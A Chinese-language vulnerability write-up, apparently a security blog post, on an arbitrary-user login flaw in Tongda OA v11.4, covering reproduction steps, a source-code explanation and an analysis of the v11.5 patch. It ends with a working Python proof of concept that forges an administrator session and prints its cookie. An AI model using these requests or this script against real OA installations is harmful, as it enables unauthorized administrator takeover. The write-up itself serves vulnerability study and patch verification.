 ```yaml
---
title: 通达 OA Office Anywhere v11.4任意用户登录漏洞复现与原理详细解析（第二处）
date: 2020-12-19
cover: https://gitee.com/tutucoo/images/raw/master/uPic/2bS9UR.jpg
---
```


## 漏洞概述

通达OA系统采用领先的B/S(浏览器/服务器)操作方式，使得网络办公不受地域限制。 Office Anywhere采用基于WEB的企业计算，主HTTP服务器采用了世界上最先进的 Apache服务器，性能稳定可靠。数据存取集中控制，避免了数据泄漏的可能。提供数据备份工具，保护系统数据安全。多级的权限控制，完善的密码验证与登录验证机制更加强了系统安全性。

通达OA官方更新了V11版本安全补丁，修复了任意用户伪造登录漏洞，该漏洞的操作难度低，危害程度大。未经授权的攻击者通过构造请求包实现用户登录，又由于UID是主键且步进为1递增，从而导致可以指定UID实现任意用户登录（admin的缺省UID为1）。
## 漏洞环境

官网：https://www.tongda2000.com/

下载：https://cdndown.tongda2000.com/oa/2019/TDOA11.4.exe

版本：通达OA V11.X<V11.5

测试系统： 

Windows 7 专业版 64位操作系统 

macOS11.0.1 （攻击机）

python3.7.5

## 漏洞验证
第一步：访问ispirit/login_code.php，在返回值中保存codeuid：{58AA7BF5-725C-F8EB-3324-BE17C4E8F6AA}

第二步：访问general/login_code_scan.php
修改如下：

```
GET请求改为POST请求
添加Content-Type
添加Content-Length
添加请求体codeuid={xxx}&source=pc&uid=1&type=confirm&username=admin
```



![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219101708128_5207.png)

这个请求一般会返回status 1

  ![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219102012280_28610.png)

  第三步：访问/ispirit/login_code_check.php?codeuid={xxx}

  ![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219102123533_12814.png)

  如果请求正常，会返回如下图所示数据 
  ![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219102401024_13617.png)

第四步：访问/general/index.php，顺利登录后台，权限是系统管理员，实现任意用户登录
  ![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219102509925_13991.png)



## 漏洞原理

漏洞地址存在于general/login_code_scan.php，进入解密后的源码处查看代码，可以看到通过POST请求接收5个参数，然后存到数组里，uid可控，没有对uid进行任何校验，这就产生了漏洞
![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219104350520_5847.png)

这里会检测codeuid，如果codeuid存在并且正确会返回1

![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219104600278_30979.png)

再后面就没有任何检测了，直接在返回包里返回status

![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219105133157_30970.png)

漏洞点要发送5个参数，分别是codeuid，source，uid，type，username

* codeuid必须是实时获取到的，否则无法通过校验

* source只需填入pc、web或者mac其中之一（源码中做了判断,必须是这三个之一才会正常返回status）

* uid为1就是管理员权限，可以通过本地数据库查到，前面几篇博客都说明了，就不多说了。

* 最后并没有对type和username做检测
  

按理发请求的时候这两个任意值都是可以的，但是经过测试username可以是任意值，但是type必须是confirm，否则无法任意用户登录，那么这个type应该是有校验的，只不过不是在这个文件中，所以我们要找到这个校验处。
  校验很可能存在的位置就是下一个步骤，也就是访问/ispirit/login_code_check.php?codeuid={xxx}，找到源码进行查看。
可以看到15行对type进行判断

![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219170612652_23176.png)

  

如果type不是confirm就不会执行session操作，换句话就无法保存状态，伪造的管理员cookie也就无法生效了，后续直接访问后台就不会成功，所以type必须是confirm。



![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219170917295_8923.png)



## 补丁分析

找到v11.5版本的general/login_code_scan.php文件，可以看到不再直接从UID参数中取UID了，而是通过P参数获取sessionid，再通过sessionid获取数据库中的UID，再通过UID等信息生成TOKEN，最后再通过TOKEN等信息生成缓存，这样就解决了UID可控的问题了

![image-20201219215830050](https://gitee.com/tutucoo/images/raw/master/uPic/image-20201219215830050.png)

![image-20201219221115596](https://gitee.com/tutucoo/images/raw/master/uPic/image-20201219221115596.png)

## 总结
该漏洞点存在于general/login_code_scan.php，需要传递5个参数，分别是codeuid、source、uid、type、username、其中codeuid需要发送ispirit/login_code.php请求获取，其他几个参数通过分析源码我们也都知道了，唯独还有/ispirit/login_code_check.php?codeuid={xxx}请求，不知道是从何而来，可能是通过黑盒测试，二维码扫描过程中抓到的吧，也就是个猜测，自己通过APP扫码登录出了点问题，就不再细说了。

## 附：POC
```python3
import json
import requests

def getSession(url):
    vulUrl = url+'/ispirit/login_code.php'
    res = requests.get(vulUrl)
    codeuid = json.loads(res.text)['codeuid']
    print(codeuid)
    confirmUrl = url + '/general/login_code_scan.php'
    data = {
        'codeuid':codeuid,
        'uid': int(1),
        'source': 'pc',
        'type': 'confirm',
        'username': 'admin',
    }

    res = requests.post(confirmUrl,data=data)
    status = json.loads(res.text)['status']
    print(status)
    if status == str(1):
        seesionUrl = url + '/ispirit/login_code_check.php?codeuid='+codeuid
        res = requests.get(seesionUrl)
        print('[*]cookie:'+res.headers['Set-Cookie'])
    else:
        print('[-]failed')


if __name__ == "__main__":
    getSession('http://xxxx/')
```

